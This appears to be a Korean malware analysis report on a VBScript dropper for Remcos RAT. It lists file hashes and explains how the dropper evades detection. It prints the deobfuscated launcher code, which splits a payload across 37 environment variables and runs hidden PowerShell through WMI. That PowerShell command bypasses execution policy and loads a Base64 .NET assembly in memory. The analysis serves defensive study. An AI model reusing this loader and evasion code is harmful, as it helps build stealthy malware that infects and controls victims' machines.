

# [악성코드 분석 보고서] WMI 및 환경변수 분할 기법을 활용한 Remcos RAT 드로퍼

## 1. 개요 (Executive Summary)
* **분석 날짜:** 2026-08-23
* **분석가:** [poatanson / son]
* **악성코드 패밀리:** Remcos RAT (Dropper)
* **요약:** 본 샘플은 VBScript 기반의 드로퍼로, WMI(`Win32_Process`)를 활용해 창을 숨긴 채 PowerShell을 실행함. 페이로드는 37개의 환경 변수로 분할(Fragmentation)되어 명령줄 길이 제한 및 시그니처 탐지를 우회하며, 최종적으로 .NET Reflection을 이용해 Remcos RAT를 메모리(Fileless)에 로드하여 실행함.

## 2. 기본 정보 (File Details)
* **파일명:** `c5103eaa70a4a80176440a0e0dc75136a0e7bcfd9a68d7c8440a4d0edea72011.vbs` (또는 실제 확장자)
* **파일 크기:** 40 MB
* **해시:**
  * MD5: `f5b1c1919f175fce913df143accf44a3`
  * SHA-1: `8b3f6d2217b736d5bbe69de37a3dd95ee058151b`
  * SHA-256: `c5103eaa70a4a80176440a0e0dc75136a0e7bcfd9a68d7c8440a4d0edea72011`
* **파일 타입:** VBScript

## 3. 분석 환경
* **OS:** Windows 10 Pro 22H2 (VirtualBox)
* **주요 사용 도구:** vbsedit, sublime text, LLM (코드 난독화 해제 보조)

## 4. 실행 흐름도 (Execution Flow)



## 5. 주요 기술적 특징 (Technical Analysis)

### 5.1. 환경 변수 분할 및 WMI 은밀 실행
* 기존 `WScript.Shell.Run`의 창 깜빡임 및 명령줄 길이 제한을 우회하기 위해 WMI 사용.
* 페이로드를 `P1`부터 `P37`까지 37조각으로 나누어 환경 변수에 할당.
* **추출된 WMI 스크립트:**
```vbscript
Set exophthalmy = GetObject(healthily)

Set Acadia = exophthalmy.Get(healthilyt).SpawnInstance_ 
Acadia.ShowWindow = 0 

Set wistit = exophthalmy.Get(echinocardium)
lotus = wistit.Create(ballast, Null, Acadia, lithobiid) 
opsonies.Run ballast, 0, True 


' ==========================================================
' [1] WMI 객체 및 시작 옵션 초기화
' ==========================================================
' WMI 루트 객체 생성 (winmgmts:\\.\root\cimv2)
Set exophthalmy = GetObject(healthily) 

' Win32_ProcessStartup 클래스의 인스턴스 생성
Set Acadia = exophthalmy.Get(healthilyt).SpawnInstance_ 

' 창 숨김 설정 (0 = SW_HIDE)
Acadia.ShowWindow = 0 

' Win32_Process 클래스 객체 할당
Set wistit = exophthalmy.Get(echinocardium) 


' ==========================================================
' [2] 프로세스 실행 (중복 로직 포함)
' ==========================================================
' [실행 시도 ] WMI를 통한 은밀한 프로세스 생성
' 인자: (명령어, 현재디렉토리, 시작옵션객체, PID반환변수)
lotus = wistit.Create(ballast, Null, Acadia, lithobiid) 

' [실행 시도 ] WScript.Shell을 통한 폴백(Fallback) 실행
' 인자: (명령어, 창스타일(0=숨김), 대기여부(True))
opsonies.Run ballast, 0, True 


' ==========================================================
' [변수 매핑 요약]
' ==========================================================
' ballast   : powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command "$s=$env:P1+...+$env:P37; $b=[Convert]::FromBase64String($s); [Reflection.Assembly]::Load($b)|Out-Null; [OtnmpxnddVnptbN.mpxnddVn]::Otnmpxn('...')"
' healthily : "winmgmts:\\.\root\cimv2"
' healthilyt: "Win32_ProcessStartup"
' echinocardium: "Win32_Process"